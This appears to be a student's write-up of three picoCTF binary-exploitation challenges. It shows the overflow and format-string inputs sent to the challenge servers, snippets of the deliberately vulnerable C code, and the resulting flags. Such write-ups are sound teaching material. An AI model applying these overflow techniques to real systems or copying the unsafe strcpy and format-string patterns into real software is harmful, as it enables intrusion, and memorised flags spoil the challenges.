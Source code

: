 # 1. buffer overflow 0

> Let's start off simple, can you overflow the correct buffer? The program is available [here](resources/binary-exploitation/bufferoverflow0/vuln). You can view source [here](resources/binary-exploitation/bufferoverflow0/vuln.c).  
Connect using: nc saturn.picoctf.net 56279

## Solution:

When we establish the netcat connection, we can see the program asking for an input, and then exiting.

```sh
┌──(soumil㉿Predator)-[~/picoCTF/bufferoverflow0]
└─$ nc saturn.picoctf.net 56279
Input: soumil
The program will exit now
```

Looking at the [source code](resources/binary-exploitation/bufferoverflow0/vuln.c) we can see that the `sigsegv_handler` function will return us the flag, so to setup a segmentation violation we will need to overflow a buffer somewhere, which we can see in the `vuln` function where `buf2` has size of 16.

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

Thus we can get the flag.

```sh
┌──(soumil㉿Predator)-[~/picoCTF/bufferoverflow0]
└─$ nc saturn.picoctf.net 56279
Input: 0000000000000000000000000000000
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Concepts learnt:

- A SIGSEGV handler is a specific function or routine within a program designed to intercept and manage the SIGSEGV signal. SIGSEGV, or "Segmentation Violation," is a signal sent by the operating system to a process when it attempts to access memory that it is not authorized to access. This typically occurs due to errors like dereferencing a null pointer, accessing out-of-bounds array elements, or attempting to write to read-only memory.

## Notes:

- If you try to do the math by hand, maybe try and add a few more characters, as on inputting 17 characters the buffer didnt overflow. Sometimes there are things you aren't expecting.

***

# 2. format string 0

> Can you use your knowledge of format strings to make the customers happy?
Download the binary [here](resources/binary-exploitation/formatstring0/format-string-0).  
Download the source [here](resources/binary-exploitation/formatstring0/format-string-0.c).  
Connect with the challenge instance here:  
nc mimas.picoctf.net 53409

## Solution:

After establishing connection,

```
┌──(soumil㉿Predator)-[~/picoCTF/bufferoverflow0]
└─$ nc mimas.picoctf.net 53409
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation:
```

After going through the choices, if we enter `Breakf@st_Burger`, we get

```
Breakf@st_BurgerPatrick is still hungry!
Try to serve him something of larger size!
```

Then if we try with `Gr%114d_Cheese`, we get

```
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation:
```

Similary if we choose `Pe%to_Portobello`, we get

```
Enter your recommendation: Pe%to_Portobello
Pe20021560_Portobello
```

Then if we choose `Cla%sic_Che%s%steak` we get

```
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```

By looking at the [source code](resources/binary-exploitation/formatstring0/format-string-0.c), we need to get the flag through the `sigsegv_handler` function, ie: we need to overflow `BUFSIZE` of size 32.

On choosing `Gr%114d_Cheese`, the `%` is actually acting as a format specifier, thats why its being printed like `Gr                                                                                                           4202954_Cheese`, and thus goes to the `serve_bob` function, where the choice `Cla%sic_Che%s%steak` has format specifiers `%s` which are repeating the same string as shown in the output `ClaCla%sic_Che%s%steakic_Che(null)`, since it overflows the buffer of size 32, the `sigsegv_handler` is invoked and we get the flag

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```

## Concepts learnt:

- A SIGSEGV handler is a specific function or routine within a program designed to intercept and manage the SIGSEGV signal. SIGSEGV, or "Segmentation Violation," is a signal sent by the operating system to a process when it attempts to access memory that it is not authorized to access. This typically occurs due to errors like dereferencing a null pointer, accessing out-of-bounds array elements, or attempting to write to read-only memory.
- format specifiers

***

# 3. clutter-overflow

> Clutter, clutter everywhere and not a byte to use.
nc mars.picoctf.net 31890

## Solution:

Using the [python script](resources/binary-exploitation/clutteroverflow/pythonscript.py) we can obtain the flag. The script will overflow the buffer by 264 bytes of data plus the 8 bytes of deadbeef for the RBP register to read 0xdeadbeef. It was found that the RBP register, which held the data for `code` variable could be used to get the offset which overflowed our buffer

## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Resources:

- [https://medium.com/@boogsta/binary-exploitation-picoctf-clutter-overflow-challenge-walk-through-80e2f775102c](https://medium.com/@boogsta/binary-exploitation-picoctf-clutter-overflow-challenge-walk-through-80e2f775102c)

***